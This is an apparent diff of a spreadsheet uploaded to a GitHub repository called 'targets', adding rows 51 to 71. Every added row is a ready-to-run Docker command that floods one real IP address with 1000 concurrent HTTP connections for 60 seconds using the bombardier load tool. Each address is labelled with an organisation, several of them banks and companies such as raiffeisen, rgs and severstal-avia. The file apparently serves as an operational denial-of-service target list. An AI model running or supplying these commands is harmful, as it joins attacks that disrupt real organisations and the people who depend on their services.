

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 51: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.24.64.246&& sleep 5; | 195.24.64.246 | nmg
+row 52: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.28.44.8&& sleep 5; | 193.28.44.8 | raiffeisen
+row 53: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.238.73.126&& sleep 5; | 195.238.73.126 | raiffeisen
+row 54: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.238.73.204&& sleep 5; | 195.238.73.204 | raiffeisen
+row 55: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.232.135.221&& sleep 5; | 91.232.135.221 | raiffeisen
+row 56: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.13.191.10&& sleep 5; | 217.13.191.10 | raiffeisen
+row 57: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.28.44.67&& sleep 5; | 193.28.44.67 | raiffeisen
+row 58: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.238.73.5&& sleep 5; | 195.238.73.5 | raiffeisen
+row 59: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.238.73.244&& sleep 5; | 195.238.73.244 | raiffeisen
+row 60: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.28.44.24&& sleep 5; | 193.28.44.24 | raiffeisen
+row 61: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.186.167.246&& sleep 5; | 194.186.167.246 | raiffeisen
+row 62: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.190.20.107&& sleep 5; | 194.190.20.107 | rgs
+row 63: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.135.16.84&& sleep 5; | 194.135.16.84 | rgs
+row 64: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 5.200.59.203&& sleep 5; | 5.200.59.203 | rgs
+row 65: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.190.20.106&& sleep 5; | 194.190.20.106 | rgs
+row 66: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.190.111.65&& sleep 5; | 194.190.111.65 | rgs
+row 67: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.190.20.105&& sleep 5; | 194.190.20.105 | rgs
+row 68: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.243.90.73&& sleep 5; | 188.243.90.73 | rgs
+row 69: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.17.10.74&& sleep 5; | 185.17.10.74 | rossetimr
+row 70: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.53.118.141&& sleep 5; | 92.53.118.141 | segezha-group
+row 71: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 5.23.51.195&& sleep 5; | 5.23.51.195 | severstal-avia
```
